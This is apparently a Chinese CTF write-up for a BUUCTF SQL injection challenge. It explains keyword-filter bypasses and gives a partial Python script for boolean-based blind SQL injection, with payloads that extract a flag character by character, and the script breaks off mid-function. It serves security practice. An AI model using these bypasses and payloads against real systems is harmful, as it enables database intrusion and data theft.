 ![](/img/BUUCTF_SQL刷题/H6aYbClnJoIjYmxPEqUcs7gLnTg.png)

换 F1naI1y 表跑，大概就这样，内容部分有错误。

![](/img/BUUCTF_SQL刷题/WQ3sb0fGRoDaZIxTsctc3Pz0n0K.png)

# [CISCN2019 华北赛区 Day2 Web1]Hack World

输入 1、2 均有结果，空格、+ 被过滤，发现 %20 可替代，and、or、union、information、(group、%20group、均过滤。

综合考虑，可以用 concat()代替 group_concat()，空格沿用前面一题的括号，information 可以改用 sys.schema_auto_increment_columns 查表，但是再一看题目已经给出 flag 所在表和列了，那就直接爆就好了。按我的注入语句来说，当 Hello, glzjin wants a girlfriend.出现的时候即判断正确，Error Occured When Fetch Result.出现即判断错误，其他即注入语句本身有误。

```
import requests
import re
import time

url = "http://23f0fee2-b6ad-4a70-88b9-b13213bde7f9.node5.buuoj.cn:81/index.php"

x = 7
payloads = [
    # 库长 0
    "",
    # 库名 1
    "0^(ascii(substr(database(),{i},1))>{mid})",
    # 表长 2
    "",
    # 表名 3
    "",
    # 列长 4
    "",
    # 列名 5
    "",

    "",
    # 内容 7
    "0^(ascii(substr((select(concat(flag))from(flag)),{i},1))>{mid})"
]

method=1               # get:0  post+url:1  post+json:2
parameters_url={"id":""}        # method=1
target_url="id"                 # method=1
parameters_json={"username":"","password":"1"}      # method=2
target_json="username"                             # method=2

keywords = "glzjin"

def boolean_query(url,payload):
    if method == 0:
        r = requests.get(url + payload)
    elif method == 1:
```